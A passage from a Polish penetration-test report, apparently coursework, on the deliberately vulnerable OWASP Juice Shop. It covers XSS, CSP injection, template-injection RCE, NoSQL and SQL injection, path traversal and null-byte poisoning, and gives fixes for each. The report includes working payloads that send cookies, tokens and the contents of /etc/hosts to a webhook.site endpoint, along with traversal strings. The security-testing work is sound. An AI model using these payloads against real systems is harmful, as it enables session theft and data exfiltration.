[{"message":"I am silly2",
"author":
"mc.safesearch@juice-sh.op",
"product":36,
"likesCount":8,
"likedBy":["filip@mail.com"],
"_id":"2owc86xGahDSdmfvJ"},
{"message":"I am silly2",
"author":"bjoern@owasp.org",
"product":44...
\end{lstlisting}       \\ \hline
\end{tabular}
\end{table}

Wynik dowodzi, że zmodyfikowana została duża liczba opini ("modified": 30). Skutkiem zapytania jest więc stosunkowo poważne zniszczenie bazy danych opini.

{\rule{\linewidth}{0.2mm}}
\begin{center}
    \textcolor{red}{APLIKACJA PODATNA NA NO SQL INJECTION}
\end{center} 


\subsection{Kradzież ciasteczek przez reflected XSS}

W tabeli została zawarta ścieżka prezentująca atak typu reflected XSS.

\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET                                                          & \begin{tabular}[c]{@{}l@{}}
/\#/search?q=<img src='\#' \\
onerror="fetch('https://webhook.site/\\ 
3f406f22-779e-44a3-a7ce-05e9146aa009?cookie='\\
 + document.cookie)" style=max-width:0px></img> apple"
\end{tabular}                                          & -                                   & -                    & - & Zwykły dokument HTML                               \\ \hline
\end{tabular}
\end{table}

Mimo ostrzeżeń i blokad związanych z Cross-Origin Resource Sharing zapytanie GET wychodzące z kodu JS zostało wysłane, a co za tym idzie na stronie webhook dostępna była pełna treść ciasteczka użytkownika, czyli również jego token (jeśli był zalogowany). 

Alternatywna metoda wykonania ataku, która nie sprawia problemów z CORS jest zainspirowana przez jeden z wpisów w poście

\href{https://stackoverflow.com/questions/247483/http-get-request-in-javascript}{https://stackoverflow.com/questions/247483/http-get-request-in-javascript}. Polega ona na utworzeniu nowego elementu typu image i ustawieniu odpowiedniego źródła. Kod zawarty w XSS wygląda w niej następująco:

\begin{lstlisting}
var i = document.createElement('img');
i.src = 'https://webhook.site/3f406f22-779e-44a3-a7ce-05e9146aa009?cookie=' + document.cookie;
\end{lstlisting}

Na stronie webhook wykradzione dane (w tym token) są dostępne w formie URL zapytania:

\begin{lstlisting}
https://webhook.site/3f406f22-779e-44a3-a7ce-05e9146aa009?cookie=language=en;%20welcomebanner_status=dismiss;%20cookieconsent_status=dismiss;%20continueCode=zj8exOlDwJKkP5gRLapr74mAYof8tgLuKJH84G2vEWqnB6yVobZ9zMY1NX3Q;%20token=eyJ0eXAiOiJKV1QiLCJ...
\end{lstlisting}

{\rule{\linewidth}{0.2mm}}
\begin{center}
    \textcolor{red}{APLIKACJA PODATNA NA REFLECTED XSS}
\end{center} 

\begin{tcolorbox}[width=\textwidth,title={Zalecenia},colbacktitle=cyan,coltitle=black]    
Oczywistą sugestią jest dodanie sanityzacji. Jest to jednak atak Reflected XSS, co sprawia że wykonanie sanityzacji staje się znacznie trudniejsze z powodu ograniczonego dostępu do bibliotek i chęci minimalizacji kodu strony. Z tego powodu najlepiej skorzystać z Content Security Policy z odpowiednimi ustawieniami. Najlepszymi z nich są Nonce oraz Hash, które sprawiają że tylko znane serwerowi skrypty zostaną uruchomione. Więcej informacji o CSP: \href{https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP}{https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP}
\end{tcolorbox}    

\subsection{\colorbox{yellow!80}{\parbox{\textwidth}{PT06-CSP: Wymuszenie zmiany polityki CSP}}}
\subsubsection{Opis}
Atak miał na celu zmianę polityki CSP obowiązującej na stronie profilu użytkownika (/profile). Modyfikacja odbyła się poprzez odpowiednią preparację linku do awatara użytkownika.

Nie udało się znaleźć innych modułów aplikacji, gdzie prezentowane były awatary użytkownika, dlatego atak ten jest bardzo ograniczony.

\subsubsection{Warunki wykonania ataku}
Atakujący posiada poprawny token użytkownika.

\subsubsection{Szczegóły wykonania}
Żądanie wykonujące atak zostało przedstawione w tabeli.
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
POST                                                          & /profile/image/url                                        & \begin{tabular}[c]{@{}l@{}}Authentication \\ Bearer TOKEN \end{tabular}                                   & \begin{tabular}[c]{@{}l@{}}token: \\ TOKEN\end{tabular}                    & \begin{tabular}[c]{@{}l@{}}\{"imageUrl":"http://assets/public/images/uploads/1.jpg;\\ script-src 'unsafe-inline'"\}\end{tabular} & 302 /profile                               \\ \hline
\end{tabular}
\end{table}

\subsubsection{Skutki}

Po wykonaniu zapytania nagłówek CSP zwracany przez sklep na profilu użytkownika wyglądał następująco:
\begin{lstlisting}
img-src 'self' http://assets/public/images/uploads/1.jpg; script-src 'unsafe-inline'; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
\end{lstlisting}
co wskazuje na to, że \textbf{skrypty o niezweryfikowanym źródle zostały aktywowane} (co potwierdza obecność 'unsafe-inline' na liście script-src) na stronie profilu. 

\subsubsection{Zalecenia}
W celu zapobiegnięcia modyfikacji CSP należało by zaimplementować poprawioną metodę sprawdzania, czy podana jako link do zdjęcia wartość faktycznie jest linkiem.
Jedną z metod weryfikacji URL w JS jest tak samo nazwana biblioteka, która zwraca błąd jeśli tekst nie jest poprawnym łączem. 

Ponadto, ciekawym dodatkowym zabezpieczeniem jest usunięcie wszystkiego po znaku średnika. Teoretycznie może on występować w URI jednak jest on w pewien sposób "specjalny" i ma inne znaczenie niż zwykłe litery i cyfry (\href{https://www.rfc-editor.org/rfc/rfc3986\#section-2.2}{https://www.rfc-editor.org/rfc/rfc3986\#section-2.2}), dlatego i tak nie powinien być obecny zbyt często w łączach do obrazków. Takie zabezpieczenie automatycznie usunie wszystko co mogło by ingerować w politykę w CSP, więc nawet jeśli weryfikacja URL nie zadziała to do CSP nie zostanie wstawione nic co umożliwi XSS.

Przykład poprawki modyfikacji CSP w pliku profileImageUpload.ts:
\begin{lstlisting}
const { URL } = require('url');
[...]
if (loggedInUser) {
    var myurl = ""
    try {
        myurl = new URL(requrl).toString();
        myurl = myurl.split(';')[0] 
    } catch (error) {
        myurl = "";
        next(error)
    }
[...]
\end{lstlisting}
Poprawka częściowo zainspirowana przez wpis \href{https://stackoverflow.com/questions/30931079/validating-a-url-in-node-js}{https://stackoverflow.com/questions/30931079/validating-a-url-in-node-js}.


\subsubsection{StoredXSS}
\subsection{\colorbox{green!80}{\parbox{\textwidth}{PT07-XSS: Prosty atak Stored XSS}}}
\subsubsection{Opis}

Atak polegał na celowej preparacji danych (próby objęły głównie pseudonim użytkownika) w taki sposób, aby powodował on wykonanie dowolnego skryptu po jego wyświetleniu na witrynie.

W badanej implementacji sanityzacja została poprawiona, dlatego nie udało się wykonać prostego XSS na pseudonimie użytkownika. Sprawdzone zostało wiele kombinacji, jednak ze względu na brak powodzenia można uznać, że użyta biblioteka jest na tyle dobra, że walka z nią nie ma większego sensu i lepiej spróbować podejść do problemu w innym miejscu, bądź inną, mniej bezpośrednią metodą.

W raporcie zostały opisane podjęte próby.

\subsubsection{Warunki wykonania ataku}
Różne w zależności od wersji ataku. Dla ataku na pseudonim atakujący musiał posiadać poprawny token użytkownika i wykonać atak na CSP pozwalający na uruchomienie dodatkowych skryptów.

\subsubsection{Szczegóły wykonania (podjęte próby)}

W tabeli zawarty został schemat prostego ataku XSS na pseudonim użytkownika z przykładowymi danymi. Badane były również takie wartości pola username jak np. "<<sscript>sscript>alert('Modified CSP')</script>", które działało w podstawowej implementacji JuiceShop, jednak tutaj zostało poprawnie zsanityzowane.

\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
POST                                                          & /profile                                        & \begin{tabular}[c]{@{}l@{}}Authentication \\ Bearer TOKEN \end{tabular}                                   & \begin{tabular}[c]{@{}l@{}}token: \\ TOKEN\end{tabular}                    & \begin{tabular}[c]{@{}l@{}}\{'username': "\></p\><img\><a 
\\    
href=javascript:'javascript:alert('ModifiedCSP')'\></img\>"\}\end{tabular} & 302 /profile                               \\ \hline
\end{tabular}
\end{table}

Poszukiwania podatności na Stored XSS objęły również inne endpointy. Na każdym z nich testowane były różne kombinacje znaków (w szczególności /,<,>,",'), tagów script/img i innych losowych ciągów z jednoczesną obserwacją, czy wstawiane do bazy elementy wykazują potencjał na skuteczny XSS. W skład prób wchodziły:
\begin{itemize}
    \item Modyfikacja pola email przy rejestracji (POST /api/Users/):
    
    \lstinline[]|"email":"x<script>alert()</script>de@mail.com")|
    \item Dodawanie i modyfikacja pól message oraz author recenzji (PUT /rest/products/1/reviews: 
    
    \lstinline[]|"message":"<script<<<<script>alert()</script>"|,
    
    \lstinline[]|"author":"<<<script<<<script>alert()</script>"|)
    \item Dodawanie opini customer feedback z atakiem w polu comment
    \item Atak inspirowany przez mutation XSS na username (POST /profile:

    \lstinline[]|username=script<style = width:0px>><<|
     
    wydawał się częściowo skuteczne, ale znak < był zawsze usuwany, więc ostatecznie nic nie udało się osiągnąć 
\end{itemize}

\subsubsection{Skutki}
Na tym etapie \textbf{nie udało się wykonać skutecznego ataku XSS}. 


\subsection{\colorbox{green!80}{\parbox{\textwidth}{PT08-SQL-XSS: Atak Stored XSS wspierany przez SQL Injection}}}
\subsubsection{Opis}
Po licznych nieudanych próbach podstawowego ataku XSS uznano, że  jest on zbyt trudny w realizacji ze względu na poprawioną sanityzację. Jako formę jej ominięcia podjęto próbę modyfikacji zawartości bazy danych poprzez SQL Injection tak, aby uzyskać możliwość wstawienia ataku XSS bezpośrednio do niej (poprzez użycie SELECT CHAR(60) itp.). 
\subsubsection{Warunki wykonania ataku}
W zależności od podejmowanych prób w niektórych był wymagany poprawny token użytkownika.
\subsubsection{Szczegóły wykonania (próby)}
Podjęte zostały następujące próby realizacji ataku:
\begin{itemize}
    \item Wstrzyknięcie znaku bezpośrednio do bazy przez SQL Injection (to co opisany wcześniej SQL injection  GET /rest/products/search: 
    
    \begin{lstlisting}
        ?q=apple')); update users set username="xs" where id=23; --")
    \end{lstlisting}
    W trakcie prób do tego punktu udało się ustalić, że sanityzacja XSS dla pseudonimu odbywa się przed wstawieniem do bazy (nie było jednak wiadomo czy tylko przed, czy zarówno przed jak i po)
    \item zapytania aktualizujące i wstawiające opinie (PUT /rest/products/1/reviews)
    \item żądania zmiany pseudonimu (POST /profile)
\end{itemize}

\subsubsection{Skutki}
Podobnie jak w przypadku podstawowego XSS \textbf{nic nie udało się osiągnąć}.

\subsection{\colorbox{orange!80}{\parbox{\textwidth}{PT09-RCE-XSS: Atak Stored XSS wspierany przez RCE}}}

Atak ten jest rozwinięciem prób związanych z wykonaniem XSS z użyciem funkcji dodawania pseudonimu dla użytkownika. Element wyświetlający pseudonim w szablonie strony jest niepoprawnie zabezpieczony, co umożliwia wykonanie kodu JavaScript i wyświetlenie jego wyników. Pozwala to na wstawienie tagu script przy pomocy funkcji związanych z przetwarzaniem ciągów znaków tekstowych (m.in. użycie String.fromCharCode(60) dla '<' i 62 dla '>'). 

Powodzenie tego typu ataku stanowi dowód, że sanityzacja danych odbywa się tylko na etapie użytkownik -> baza, natomiast nie działa poprawnie na etapie baza -> zwracana strona.

Inne miejsca, w których został przetestowany atak RCE podobną metodą (wykorzystując szablony strony), ale się nie powiódł:
\begin{itemize}
    \item Opinie produktów
    \item Customer Feedback
    \item Rejestracja mailem \#\{2+2\}@mail.com
\end{itemize}

Ponadto, wykonanie ataku wymaga znajomości żetonu JWT użytkownika, dlatego sam atak XSS kiedy staje się możliwy do wykonania jest już trochę niepotrzebny, ponieważ atakujący i tak ma dostęp do konta, a sanityzacja pseudonimu w pozostałych modułach aplikacji działa poprawnie, co uniemożliwia atak na osoby postronne.

\subsubsection{Warunki wykonania ataku}
Atakujący musi posiadać poprawny token użytkownika i wykonać atak modyfikujący CSP na jego awatar.

\subsubsection{Szczegóły wykonania}

W danych zawartych w tabeli wysłany kod jest zwykłym połączeniem ciągów znaków i klamr uzyskanych funkcjami zamieniającymi kody unicode na właściwe znaki. Kod URL \%2B odpowiada znakowi dodawania '+'.

\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
POST                                                          & /profile                                        & \begin{tabular}[c]{@{}l@{}}Authentication \\ Bearer TOKEN \end{tabular}                                   & \begin{tabular}[c]{@{}l@{}}token: \\ TOKEN\end{tabular}                    & \begin{tabular}[c]{@{}l@{}}\{'username'='\#\{String.fromCharCode(60) \\ \%2B'script'\%2BString.fromCharCode(62)\%2B"alert('abc') \\ "\%2BString.fromCharCode(60)\%2B'/script'\%2BString.fromCharCode(62)\}'\}\end{tabular} & 302 /profile                               \\ \hline
\end{tabular}
\end{table}

\subsubsection{Skutki}
Po wykonaniu takiego zapytania wejście na profil użytkownika skutkuje wyświetleniem alertu przeglądarki, co potwierdza powodzenie ataku XSS. W podanym przykładzie atak był niegroźny jednak nic nie stoi na przeszkodzie by wykonać np. kradzież ciasteczek jak w przypadku Reflected XSS.

\subsubsection{Zalecenia}
Należy powtórzyć użyte przed wpisem do bazy mechanizmy sanityzacji XSS również przed wyświetlaniem danych.

\subsection{\colorbox{red!80}{\parbox{\textwidth}{PT10-RCE: Kradzież danych z serwera z użyciem RCE na szablonie}}}
\subsubsection{Opis}
Atak polegał na wykorzystaniu niezabezpieczonego mechanizmu wyświetlania pseudonimu do przeglądania plików systemowych kontenera. Wykorzystaną podatność stanowiła możliwość wstawienia pseudonimu w formie "\#\{kod\}", którą niezabezpieczony szablon interpretował jako kod do uruchomienia w środowisku kontenera.

\subsubsection{Warunki wykonania ataku}
Atakujący posiada jakikolwiek poprawny token. Atakujący wie jak użyć biblioteki do generacji witryny.

\subsubsection{Szczegóły wykonania}
Atak działa analogicznie do opisanego poprzednio wykorzystania RCE do uzyskania efektu XSS (PT09) - zmienia się tylko zawartość przesyłana jako nowy pseudonim. 

Przykładem jest podglądanie konfiguracji systemu korzystając z pseudonimu (kod wygenerowany częściowo z pomocą Copilot):
\begin{lstlisting}
    {'username': "#{require('https').get('https://webhook.site/3f406f22-779e-44a3-a7ce-05e9146aa009?data=' + encodeURIComponent(require('fs').readFileSync('/etc/hosts', 'utf8')));}"}
\end{lstlisting}
Wynikiem zapytania jest:
\begin{lstlisting}
    127.0.0.1 localhost localhost.localdomain localhost4 localhost4.localdomain4 ::1 localhost localhost.localdomain localhost6 localhost6.localdomain6 169.254.1.2 host.containers.internal host.docker.internal 10.42.12.104 52102d4cdf52 naughty_mclean
\end{lstlisting}
Na tej podstawie można się dowiedzieć, że aplikacja działa w konterze i ma dostęp do sieci wewnętrznej kontenerów (sieć host.containers.internal). 

\subsubsection{Skutki}
Atakujący może \textbf{odczytywać dowolne informacje o plikach w systemie oraz ich zawartości}. Podane przykłady przedstawiają wykorzystanie tej możliwości do odczytu klucza premium oraz podejrzenia sieci wewnętrznej kontenera, które mogły by posłużyć do odkrycia kolejnych potencjalnych celów.

\subsubsection{Zalecenia}
Najprostszym rozwiązaniem jest bezpośrednie usunięcie fragmentu "\#\{" z początku tekstu. Takie podejście jest banalne, ale sprawia, że tekst już nie zostanie wykonany. 

\textbf{Uwaga!} Ważne, by taki mechanizm zaimplementować zarówno przed wpisem do bazy, jak i tuż przed przekazaniem do szablonu. Dzięki temu zminimalizowana zostanie szansa, że działające RCE , które dostanie się do bazy danych w jakiś inny sposób (np. przez SQL Injection) zostanie wykonane.

Bardziej profesjonalnym podejściem była by sanityzacja działająca analogicznie do parameter binding przy SQL Injection, czyli mechanizm upewniający się że tekst od użytkownika zostanie zinterpretowany jako ciąg znaków, a nie polecenie. Wymaga to użycia odpowiedniej biblioteki. Najlepiej, aby już sama biblioteka od szablonów domyślnie nie dopuszczała RCE (chyba, że programista sam się na to zdecyduje z pełną świadomością).

Propozycja poprawki w aplikacji (wersja prostsza, ponieważ nie udało się znaleźć odpowiedniej biblioteki):
\begin{lstlisting}
[...]
processed = processed.replace("#{", "")
[...]
\end{lstlisting}
gdzie processed to zmienna przechowująca pseudonim użytkownika przetworzony przez sanityzację XSS. Wspominając o sanityzacji warto zaznaczyć, że dzięki odpowiedniemu użyciu RCE udało się ominąć sanityzację XSS i wykonać skuteczny atak ponieważ aplikacja nie waliduje danych po odczycie z bazy. Jest to coś co zdecydowanie wymaga poprawy: walidacja zarówno przed wstawieniem do bazy, jak i przed wyświetleniem na stronie to jedna z podstaw!
  



\subsection{\colorbox{yellow!80}{\parbox{\textwidth}{PT11-NOSQL-RCE: Atak RCE z użyciem bazy NoSQL}}}

\subsubsection{Opis}
Niepoprawna sanityzacja danych przed wykorzystaniem komendy \$where w bazie NoSQL sprawia, że można wykonywać dodatkowe polecenia z użyciem JavaScript. Celem tego ataku była końcówka /rest/products/\{id\}/reviews, gdzie modyfikowanym parametrem było id. W zawartym przykładzie zapytanie sprawia, że baza wysyła zapytanie na podany adres webhook.

\subsubsection{Warunki wykonania ataku}
\textbf{Brak}. Atak nie wymaga logowania.

\subsubsection{Szczegóły wykonania}
W tabeli zawarte zostało żądanie realizujące atak.

\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET                                                          & 
\begin{tabular}[c]{@{}l@{}}
    \begin{lstlisting}
/rest/products/1\%20\%26\%26\%20fetch\ 
('https\%3A\%2F\%2Fwebhook.
site\%2F3f406f22-779e-44a3-a7ce-05e9146aa009'\)/reviews  
    \end{lstlisting}  
\end{tabular}
& - & - & - & 200             \\ \hline
\end{tabular}
\end{table}
Przed zamianą niektórych znaków na kody URL odpytywana końcówka wyglądała następująco: \begin{lstlisting}
    /rest/products/1 && fetch(...)/reviews
\end{lstlisting}

\subsubsection{Skutki}
Skutkiem takiego zapytania jest puste żądanie otrzymane po stronie webhook'a. Niestety (z perspektywy atakującego) kontekst polecenia \$where nie pozwala na wykorzystanie tej podatności do wyciągnięcia wartościowych danych, ponieważ wszystkie opinie i tak są dostępne. Nie można jednak ignorować tej podatności, ponieważ może posłużyć do innych nadużyć takich jak SSRF.

\subsubsection{Zalecenia}  

Poprawki niezbędne do naprawy tej podatności są tożsame z tymi, które miały by zapobiec NoSQL Injection. Te zalecenia zostały opisany dokładniej w sekcji poświęconej atakowi PT04, jednak warto wspomnieć, że jednym z preferowanych rozwiązań jest dodanie biblioteki sanityzującej dane dopasowanej do baz NoSQL (np. mongo-sanitize).

\subsection{\colorbox{blue!80}{\parbox{\textwidth}{PT12-PTH-TRV: Atak Path Traversal}}}

\subsubsection{Opis}
Atak path traversal polegał na próbie uzyskania nieautoryzowanego dostępu do systemu plików poprzez wykorzystanie mechanizmów przechodzenia po drzewie plików w systemie plików. Badania dotyczyły głównie końcówki /ftp/{ścieżka do pliku} i polegały na wstawianiu przejścia do katalogu wyżej "../" do podawanej ścieżki.

Atak w tej formie nie powiódł się, dlatego w szczegółach wykonania zawarto podjęte próby i wnioski z nich wynikające.

\subsubsection{Warunki wykonania ataku}
Atakujący musi odkryć ukrytą końcówkę ftp.

\subsubsection{Szczegóły wykonania}
Jeden z przykładów użycia "../" w został przedstawiony w tabelce. Przykład ten nie jest jeszcze skutecznym atakiem, ponieważ otrzymany plik wciąż należy do udostępnionego katalogu.
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET    & 
\begin{tabular}[c]{@{}l@{}}
/ftp/quarantine/../ \end{tabular} 
& -   & -   & - &  200 OK (przegląd plików dla /ftp) \\ \hline
\end{tabular}
\end{table}

W celu zwiększenia czytelności raportu reszta prób ataków została zawarta w raporcie w postaci listy złożonej ze ścieżki (końcówki) będącej celem żądania GET, odpowiedzi serwera oraz komentarza.

\textbf{WAŻNE!} Przy badaniach zaobserwowano, że wykonywanie zapytań przez przeglądarkę nie działa poprawnie, ponieważ stara się ona oszczędzić pracy serwerowi i skrócić ścieżkę jeszcze przed zapytaniem. Przykładem może być: \begin{lstlisting}
/ftp/quarantine/../ \end{lstlisting} Wysłanie takiego zapytania przez przeglądarke skutkowało zapytaniem bezpośrednim na /ftp widocznym w BurpSuite. Z tego powodu zapytania w tym przypadku musiały być wykonywane przez program BurpSuite.
\begin{itemize}
    \item \textbf{/ftp/../}\vspace{0.5em}
    
    ForbiddenError: Forbidden
    \item \textbf{/ftp/quarantine/../}\vspace{0.5em}
    
    listing directory /ftp/quarantine/../, czyli pliki /ftp/
    \item \textbf{/ftp/quarantine/\%2E\%2E/}\vspace{0.5em}
    
    listing directory /ftp/quarantine/.., czyli pliki /ftp/
    \item \textbf{/ftp/quarantine/\%252E\%252E}\vspace{0.5em}
    
    404 Error: ENOENT: no such file or directory, stat '/juice-shop/ftp/quarantine/\%2E\%2E'\vspace{0.5em}

    W tym przypadku można zauważyć, że do operacji dekodowania URL doszło tylko jeden raz (rozkodowany został znak \%, ale już nie kropka).
    \item \textbf{/ftp/\%2E\%2E}\vspace{0.5em}
    
    403 Error: Only .md and .pdf files are allowed!
    \item \textbf{/ftp/\%252E\%252E}\vspace{0.5em}

    403 Error: Only .md and .pdf files are allowed!\vspace{0.5em}

    Ten błąd jest tutaj zaskakujący. Prawdopodobnie jest on zwracany domyślnie tak, aby nie zdradzać zbyt wiele szczegółów użytkownikowi, jednak zalecane jest dokładniejsze spojrzenie na kod, czy aby na pewno program nie próbuje wykonać operacji w niedozwolonych lokalizacjach.
\end{itemize}

\subsubsection{Skutki}
Na tym etapie można podsumować działanie końcówki tak, że przechodzenie po folderach jest w pełni możliwe tak długo, jak użytkownik odwołuje się do czegoś wewnątrz ścieżki /ftp, czyli \textbf{atak path traversal nie jest wykonalny}. Zabezpieczenia są prawdopodobnie zrealizowane przez analizę przetworzonej ścieżki i sprawdzenie, czy jest wewnątrz /ftp, bądź przez odpowiednie ustawienia dostępu użytkownika (w kontekście użytkownika systemu kontenera serwera) reprezentującego serwer.

\subsection{\colorbox{yellow!80}{\parbox{\textwidth}{PT13-NL-BT: Atak Null Byte Poisoning}}}

\subsubsection{Opis}
Atak polegał na wstawieniu Null Byte w ścieżkę do pliku udostępnianego przez serwer w celu ominięcia ograniczenia możliwości pobierania plików do typów .md oraz .pdf. Dodanie null byte wraz z rozszerzeniem pdf pozwoliło na przejście ścieżki przez zabezpieczenie związane z typami, a serwer udostępniający pliki ignorował sztucznie dodane rozszerzenie i zwracał dowolny plik z serwisu ftp.

\subsubsection{Warunki wykonania ataku}
Atakujący musi znać końcówkę ftp oraz wiedzieć, że wykonanie ataku wymaga podwójnego zakodowania null byte'a. 

Dwustopniowe kodowanie URL, czyli użycie kodu \%2500 sprawiało, że w pierwszym etapie przetwarzania serwer rozkodowywał ścieżkę do \%00, a dopiero później, w drugim etapie, do null byte'a. Wiedza o tym pochodziła z zajęć laboratoryjnych. 

Atakujący musi również znać ścieżkę do innych plików w systemie (w przypadku testów wiedza ta pochodziła z ataku RCE).
\subsubsection{Szczegóły wykonania}
Przykład udanego ataku został zawarty w tabeli.
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET    & 
\begin{tabular}[c]{@{}l@{}}
/ftp/package.json.bak\%2500.md \end{tabular} 
& -   & -   & - &  200 OK (pobranie pliku package) \\ \hline
\end{tabular}
\end{table}

\subsubsection{Skutki}
Atak pozwala atakującemu na pobranie dowolnego pliku z serwisu ftp.

\subsubsection{Zalecenia}
Zabezpieczeniem przed udanym null byte poisoning była by przede wszystkim walidacja, czy plik wyszukany przez serwis udostępniający odpowiada temu, którego oczekiwała aplikacja sklepu. Oznacza to, że aplikacja powinna sprawdzić nie tylko czy ścieżka od użytkownika zawiera plik md/pdf, ale również czy to co chce zwrócić moduł udostępniający jest takim plikiem. Mogło by tutaj wystarczyć nawet podstawowe porównanie typu: pathFromUser == pathFoundByFtp.

\subsection{\colorbox{blue!80}{\parbox{\textwidth}{PT14-NL-BT-PTH-TRV: Atak path traversal z użyciem null byte poisoning}}}

\subsubsection{Opis}
Atak polegał na połączeniu opisanych wcześniej podejść path traversal oraz null byte poisoning w celu uzyskania dostępu do plików znajdujących się poza katalogiem udostępnianym przez ftp.

\subsubsection{Warunki wykonania ataku}
Atakujący musi znać ukrytą końcówkę ftp. Musi również znać ścieżkę do innych plików w systemie (w przypadku testów wiedza ta pochodziła z ataku RCE).

\subsubsection{Szczegóły wykonania}
Podjęte próby zostały zawarte w formie listy, gdzie każdy punkt zawiera końcówkę będącą celem zapytania GET oraz odpowiedź serwera.

W tym przypadku ważne jest użycie nadmiarowych przejść "wyżej" w drzewie (czyli '../'), aby upewnić się że ścieżka wyjdzie aż do katalogu-korzenia, czyli '/' 
\begin{itemize}
    \item \textbf{/ftp/../../../../../../../etc/hosts\%2500.md}\vspace{0.5em}
    
    400 Bad Request

    
    \item \textbf{/ftp/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\newline
    \%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/\%2E\%2E/etc/hosts\%2500.md}\vspace{0.5em}
    
    400 Bad Request
    \item \textbf{/ftp/\%252E\%252E/\%252E\%252E/\%252E\%252E/\%252E\%252E/\%252E\%252E/\newline
    \%252E\%252E/\%252E\%252E/\%252E\%252E/\%252E\%252E/\%252E\%252E/\%252E\%252E/\%252E\newline
    \%252E/\%252E\%252E/etc/hosts\%2500.md}\vspace{0.5em}
    
    403 Error: Only .md and .pdf files are allowed!
\end{itemize}

Opisana dokładniej została tylko końcówka ftp jednak warto wspomnieć, że istnieje drugie miejsce które może być podatne na path traversal:
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
